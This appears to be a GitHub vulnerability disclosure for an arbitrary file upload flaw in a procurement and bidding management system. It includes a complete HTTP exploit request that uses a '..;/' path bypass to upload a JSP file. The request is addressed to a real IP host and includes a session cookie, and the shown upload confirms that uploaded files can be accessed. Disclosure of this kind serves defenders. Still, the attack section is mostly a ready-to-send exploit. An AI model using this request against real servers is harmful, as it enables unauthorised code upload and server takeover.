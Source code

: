 # Procurement-and-bidding-management-system
There is an arbitrary file upload vulnerability in the procurement and bidding management system
Recurrence of vulnerabilities
1.Problem Description 

There is an arbitrary file upload vulnerability in the procurement and bidding management system of Guangdong Guangling Information Technology Co., Ltd., which can be exploited by attackers to control server permissions.

2.Case reproduction As shown, this is a test site
![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/51b72abc-c6d8-4dc6-b25e-4082ac71867e)

3.Upload a 1. JSP file with the content of test by constructing malicious data packets

![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/11ced168-2ef7-4f3d-9162-04446305b6b8)
4.Accessing uploaded files
![image](https://github.com/dubin12345/Procurement-and-bidding-management-system/assets/144758348/b2e758ff-5073-4daa-932f-a61fe10d05e5)


5.Vulnerability exploit packets

POST //api/..;/commonController.do?parserXml HTTP/1.1
Host: 219.222.48.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: siteTitle=%E6%B1%9F%E8%8B%8F%E4%BC%98%E6%89%AC%E8%8D%AF%E4%B8%9A%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8; JSESSIONID=00427D97395E082CCCD88C7A8B6A85C3
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Length: 183

------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: text/plain

test
------WebKitFormBoundaryf1BWcBSfJB2Bf4Zm—


6.Affected version:=V1.0
